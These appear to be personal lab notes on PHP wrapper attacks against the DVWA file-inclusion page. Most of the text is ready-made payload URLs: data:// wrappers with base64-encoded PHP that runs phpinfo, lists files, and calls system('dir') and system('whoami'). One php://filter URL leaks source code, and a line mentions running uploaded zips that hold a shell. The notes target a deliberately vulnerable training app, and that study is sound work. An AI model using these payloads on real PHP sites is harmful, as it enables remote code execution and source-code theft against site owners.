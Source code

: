 ## PHP Wrappers

### Data
- PHP Info
	- ` http://192.168.0.104/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg== `

	- `PD9waHAgcGhwaW5mbygpOyA/Pg== ` is **Base64** encoded value for `<?php phpinfo(); ?>`
- List all files
	- `http://192.168.0.103/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgJGE9c2NhbmRpcigiLi8iKTtwcmludF9yKCRhKTsgPz4=`
	- `PD9waHAgJGE9c2NhbmRpcigiLi8iKTtwcmludF9yKCRhKTsgPz4=` is **Base64** encoded value for `<? php $a=scandir("./");print_r($a); ?>`
	- Same using system() `<?php system("dir"); ?>	->base64->	PD9waHAgc3lzdGVtKCJkaXIiKTsgPz4K`
	- `http://192.168.0.106/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJkaXIiKTsgPz4K`
- Base 64 for `<? php system("whoami"); ?>` is `PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTsgPz4K` and payload will be `http://192.168.0.106/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTsgPz4K`

### Filter

- A good way to get page's **Source Code**..
	- `http://192.168.0.106/dvwa/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=file1.php`

### ZIP

- We can upload zips with shell and execute them using this wrapper.
- ![[Pasted image 20210130140311.png]]
- ![[Pasted image 20210130140436.png]]
- 